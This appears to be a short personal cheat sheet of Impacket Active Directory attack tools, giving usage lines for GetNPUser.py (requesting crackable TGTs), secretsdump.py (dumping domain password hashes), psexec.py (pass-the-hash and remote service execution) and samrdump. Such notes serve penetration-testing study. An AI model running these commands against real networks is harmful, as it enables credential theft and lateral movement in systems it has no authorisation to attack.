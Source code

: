 # GetNPUser.py #AD 
    used for: 
          This script will attempt to list and get TGTs for those users that have the property
    usage:  
```
GetNPUser.py DOMAIN.local/USERNAME PASSWORD or -no-pass 
GetNPUser.py -dc-ip IP -request 'DOMAIN'
GetNPUser.py -dc-ip IP -request 'DOMAIN' -format hashcat 
```


# secretsdump.py #hashdump 
    used for
	    hashdumping
	usage:
```bash
	    secretsdump.py DOMAIN/USERNAME:'PASSWORD'@IP -just-dc
```
		
		
# psexec.py #passhash
    used for: 
	    1- passing hashes
		2- creates a remote service by uploading a randomly-named executable to the hidden Windows ADMIN$ share, registering a service via RPC and the Windows Service Control Manager, and then communicating over named a named pipe
	usage 1 : 
```bash
	    psexec.py USUERNAME@IP -hashes HASH
```
	usage 2 :
```bash
	  psexec.py SHARE/ADMIN_ACCOUNT:"PASSWORD\!"@IP
```
		
#  samrdump.py 

	used for 
		Enmurating SMB shares
	Usage:
```bash
samrdump <IP>
```